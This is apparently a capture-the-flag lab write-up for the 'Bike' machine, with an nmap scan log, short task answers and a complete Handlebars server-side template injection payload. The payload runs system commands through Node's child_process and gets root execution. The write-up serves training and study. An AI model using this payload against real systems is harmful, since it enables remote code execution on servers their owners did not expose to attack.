



# Bike

target: 10.129.188.40

attker: 10.10.15.248

## Task 1: What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high

`22,80`

```bash
└─$ nmap -p- --min-rate=1000 -sV 10.129.188.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 08:32 EST
Warning: 10.129.188.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.188.40
Host is up (0.38s latency).
Not shown: 65494 closed tcp ports (conn-refused), 39 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.45 seconds

```

## Task 2: What software is running the service listening on the http/web port identified in the first question?

`node.js`

## Task 3: What is the name of the Web Framework according to Wappalyzer?

`Express`

## Task 4: What is the name of the vulnerability we test for by submitting {{7*7}}?

`Server side template injection`

## Task 5: What is the templating engine being used within Node.JS?

`handlebars`



## Task 6: What is the name of the BurpSuite tab used to encode text?

`decoder`

## Task 7: In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

`url`

## Task 8: When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

`require`



## Task 9: What variable is the name of the top-level scope in Node.JS?

`global`

## Task 10: By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

`root`



```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Task 11: Submit root flag

### References

<https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html>
